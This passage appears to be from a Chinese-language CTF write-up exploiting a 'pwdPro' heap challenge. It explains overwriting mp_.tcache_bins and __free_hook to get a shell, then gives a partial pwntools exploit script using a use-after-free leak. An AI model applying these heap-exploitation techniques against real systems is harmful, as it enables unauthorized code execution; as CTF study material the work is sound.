 我们看到这里的逻辑，也就是这里的mp_.tcache_bins的作用就相当于是global max fast，将其改成一个很大的地址之后，再次释放的堆块就会当作tcache来进行处理，也就是这里我们可以直接进行任意地址分配。之后覆写free_hook为system，进而getshell。

还有一个libc地址泄漏的问题，由于我们存在一个UAF，这里泄漏地址不成问题，但是存在一个问题就是泄漏出的地址是加密之后。这个加密算法其实很简单，就是一个简单的异或，通过将前8位全部置为0，泄漏得到的就是异或的key，之后异或解密就能拿到libc的基地址。



## EXP

```
# -*- coding: utf-8 -*-
from pwn import *

file_path = "./pwdPro"
context.arch = "amd64"
context.log_level = "debug"
context.terminal = ['tmux', 'splitw', '-h']
elf = ELF(file_path)
debug = 0
if debug:
    p = process([file_path])
    gdb.attach(p)
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
    one_gadget = 0x0

else:
    p = remote('', 0)
    libc = ELF('./libc.so')
    one_gadget = 0x0

def add(idx, size, ID='xxx', pwd='aa'):
    p.sendafter("Input Your Choice:", '1')
    p.sendlineafter("Which PwdBox You Want Add:", str(idx))
    p.sendafter("Input The ID You Want Save:", ID)
    p.sendlineafter("Length Of Your Pwd:", str(size))
    p.sendlineafter("Your Pwd:", pwd)

def show(idx):
    p.sendafter("Input Your Choice:", '3')
    p.sendlineafter("Which PwdBox You Want Check:", str(idx))

def delete(idx):
    p.sendafter("Input Your Choice:", '4')
    p.sendlineafter("Idx you want 2 Delete:", str(idx))

def edit(idx, con):
    p.sendafter("Input Your Choice:", '2')
    p.sendlineafter("Which PwdBox You Want Edit:", str(idx))
    p.send(con)

def recover(idx):
    p.sendafter("Input Your Choice:", '5')
    p.sendlineafter("Idx you want 2 Recover:", str(idx))

add(0, 0x448, pwd="\x00"*0x8)
p.recvuntil("Save ID:")
key = u64(p.recvn(8))
add(1, 0x500)
add(2, 0x438)
add(3, 0x500)
add(6, 0x500)
add(7, 0x500)

delete(0)
```